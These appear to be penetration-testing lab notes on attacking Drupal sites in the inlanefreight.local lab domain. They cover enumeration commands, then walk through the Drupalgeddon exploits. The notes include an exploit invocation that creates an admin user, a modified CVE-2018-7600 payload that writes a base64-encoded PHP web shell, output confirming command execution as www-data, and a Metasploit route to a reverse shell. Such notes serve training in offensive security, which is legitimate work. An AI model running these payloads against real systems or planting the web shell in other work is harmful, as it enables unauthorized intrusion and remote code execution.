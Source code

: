 ### Enumeration

```bash
curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
```

```bash
curl -s http://drupal.inlanefreight.local/CHANGELOG.txt
```

```bash
droopescan scan drupal -u http://drupal.inlanefreight.local
```
### Attack

#### Drupalgeddon

Adds a new user for version 7.31 and below

- Download exploit: https://www.exploit-db.com/exploits/34992

```bash
python2.7 34992.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
```
#### Drupalgeddon2

Affects Druple < 8.3.9 / < 8.4.6 / < 8.5.1

- Download exploit: https://www.exploit-db.com/exploits/44448
- Modify exploit as you see fir

E.g.:

```bash
echo '<?php system($_GET[cmd]);?>' | base64
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==
```

Update exploit:

```bash
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': 'echo "PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+Cg==" | base64 -d | tee shell.php'}
```

Run Exploit:

```bash
python3 44448.py 
################################################################
# Proof-Of-Concept for CVE-2018-7600
# by Vitalii Rudnykh
# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders
# https://github.com/a2u/CVE-2018-7600
################################################################
Provided only for educational or information purposes

Enter target url (example: https://domain.ltd/): http://drupal-dev.inlanefreight.local/

Check: http://drupal-dev.inlanefreight.local/shell.php
```

RCE:

```bash
curl -s http://drupal-dev.inlanefreight.local/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
#### Drupalgeddon3

Use the Metasploit module `multi/http/drupal_drupageddon3`. For this we need to use the `
`drupal_session` which can be obtained from a valid login session. From there, it is possible to obtain a reverse shell.

